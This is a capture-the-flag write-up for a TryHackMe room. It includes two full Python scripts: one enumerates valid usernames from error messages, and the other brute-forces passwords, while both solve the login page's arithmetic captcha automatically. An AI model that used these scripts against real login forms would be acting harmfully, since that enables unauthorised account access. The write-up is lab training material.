 # Capture(TryHackMe)

Link to TryHackMe Room [https://tryhackme.com/room/capture](https://tryhackme.com/room/capture)

<img src="https://user-images.githubusercontent.com/25124463/236878216-64d5ac34-8a10-4814-9621-64c2c4af9306.png" width="600">




In this CTF room from TryHackMe I will be attempting to bypass a login form.&#x20;



### Enumeration&#x20;

After starting the machine and navigating to the login page this is what we are presented with. 

<img src="https://user-images.githubusercontent.com/25124463/236878987-fe6d22dd-2c2a-4113-ac5f-cd7bc0543316.png" width="600">


When entering the username ``admin`` and password ``admin`` as a test I see that I get an output at the bottom of the page saying:

**Error: The user 'admin' does not exist**

This means that we can brute force the login to find the username and observe for when the response does not contain the above error message indicating that username exists. 
We could do this on Burp Suite using the included username wordlist but the site has captcha in place after too many unsucessful login attempts.

<details>
<summary>Captcha</summary>

![captcha](https://user-images.githubusercontent.com/25124463/236881474-84571341-c715-4e2f-a9ab-dea7cb25b17c.png)
</details>

Since we now have to solve each captcha we must create a script to do this. I decided to use python to make my script. 

The username hacking script must do the following:
* Read each line of the ``usernames.txt`` file 
* Send the request with the login url and username/password payload. The password at this point is not important so we can give it a dummy value. Main goal is to find a valid username. 
* When captcha is found in the response we must solve it and include it in the request payload. 
* Loop through usernames and halt the script when a response returns html code that doesn't include ``Error: The user 'admin' does not exist``. 

My solution might not be the most elegant but it works to find the username lol
<details>
<summary>Code</summary>

```

import requests
import re

url = '' # replace with the URL of the login page

with open('usernames.txt', 'r') as uf:
    for username in uf:
        username = username.strip()
        
        payload = {
            "username" : username,
            "password" : "test_password"
        }

        response = requests.post(url, data=payload)

        if  "Invalid password for user"in response.text:
            print(f"Correct username: {username}")
            exit()
        else:
            # Solve CAPTCHA if present and send login request
            captcha_match = re.search(r'\d+\s*[-+/*]\s*\d+\s*=\s*\?',response.text)
            captcha_text = ''
            if captcha_match is not None:
                captcha_text = captcha_match.group(0).replace('=', '').strip()
                print("CAPTCHA text:", captcha_text)

                # Solve the CAPTCHA and include the solution in the payload
                match = re.search(r'(\d+)\s*([-+/*]?)\s*(\d+)', captcha_text)
                if match:
                    num1, operator, num2 = match.groups()
                    solution = eval(num1 + operator + num2)
                    print("Solution:", solution)
                    print(username)
                    payload['captcha'] = solution
                else:
                    print("Error: Failed to extract numbers and operator from CAPTCHA text")
                    continue
            
            # Send login request
            response = requests.post(url, data=payload)

            if "Invalid password for user" in response.text:
                print(f"Valid username: {username}")
                exit()



```
</details>

This will take about two minutes to finish. Correct username will be printed to the console. 

Next we have to take the correct username and create another script where we brute force to find the correct password.
In this script we must:
* Load the passwords from the password.txt file provided in the room. 
* Loop through all the passwords sending the username, password and captcha in the request payload. 
* if response returns the string "Too many bad login attempts" in the response text we know the password is unsuccessful so we can continue
* When the repsone text does not contain too many bad login attempts as a string we know that weve found the correct password 
* Print correct password and username to console and exit program. 

<details>
<summary>Code</summary>

```
import requests
import re

url = '' # replace with the URL of the login page

with open('passwords.txt', 'r') as pf:
        for password in pf:
            username = "" # The password you obtained from username script
            password = password.strip()
            
            payload = {
                "username" : username,
                "password" : password
            }


            response = requests.post(url, data=payload)
            
            # Send the GET request and extract the CAPTCHA string if present
            captcha_match = re.search(r'\d+\s*[-+/*]\s*\d+\s*=\s*\?',response.text)
            print(captcha_match)
            captcha_text = ''
            if captcha_match is not None:
                captcha_text = captcha_match.group(0).replace('=', '').strip()
                print("CAPTCHA text:", captcha_text)

                # Solve the CAPTCHA and include the solution in the payload
                # num1, operator, num2 = re.findall('\d+|\D+', captcha_text)
                match = re.search(r'(\d+)\s*([-+/*]?)\s*(\d+)', captcha_text)
                if match:
                    num1, operator, num2 = match.groups()
                    solution = eval(num1 + operator + num2)
                    print("Solution:", solution)
                    payload = {
                        'username': username,
                        'password': password,
                        'captcha': solution
                    }
                else:
                    print("Error: Failed to extract numbers and operator from CAPTCHA text")
                    payload = None
            else:
                print("No CAPTCHA found on the page")
                payload = {
                    'username': username,
                    'password': password
                }

            # Send the POST request with the payload if it is not None
            if payload is not None:
                response = requests.post(url, data=payload)
                if "Too many bad login attempts!" in response.text:
                    print(f"Attempted login with username as: {username} and password as: {password}")
                else:
                    print(f"The correct username is: {username} and password is: {password}")
                    exit()
            else:
                print("Empty payload, cannot send request")

```
</details>
At this point we can go to the browser using the username and password to obtain the flag to complete the room. Hope this helps someone. Happy hacking






![capture-completed](https://user-images.githubusercontent.com/25124463/236889555-c44067f1-4066-4135-8c5f-71bb841fa410.png)






